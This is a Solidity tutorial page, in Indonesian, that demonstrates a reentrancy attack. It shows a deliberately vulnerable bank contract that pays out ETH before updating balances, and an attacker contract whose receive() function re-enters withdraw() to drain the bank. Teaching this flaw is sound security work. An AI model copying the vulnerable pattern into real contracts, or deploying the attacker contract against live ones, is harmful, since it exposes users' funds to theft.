

repository: DevWeb3Jogja/docs · page: evm/materi-pengantar/reentrancy/attack-example/index.html · generator: docusaurus

---
title: Contoh Serangan Reentrant
sidebar_label: Contoh Serangan Reentrant
---

# Contoh Serangan Reentrant

Berikut contoh kontrak yang vulnerable terhadap reentrancy:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

// Kontrak yang vulnerable
contract VulnerableBank {
    mapping(address => uint256) public balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        require(amount > 0, "No balance");

        // BAHAYA: ETH dikirim SEBELUM saldo diupdate
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");

        // Update saldo terjadi SETELAH pengiriman ETH
        balances[msg.sender] = 0; // Sudah terlambat!
    }
}

// Kontrak penyerang
contract Attacker {
    VulnerableBank public bank;

    constructor(address _bank) {
        bank = VulnerableBank(_bank);
    }

    // receive() dipanggil setiap kali kontrak ini menerima ETH
    receive() external payable {
        // Selama bank masih punya ETH, panggil withdraw lagi
        if (address(bank).balance >= 1 ether) {
            bank.withdraw(); // Reentrant call!
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        bank.deposit{value: 1 ether}();
        bank.withdraw(); // Memicu rantai reentrant calls
    }
}
```
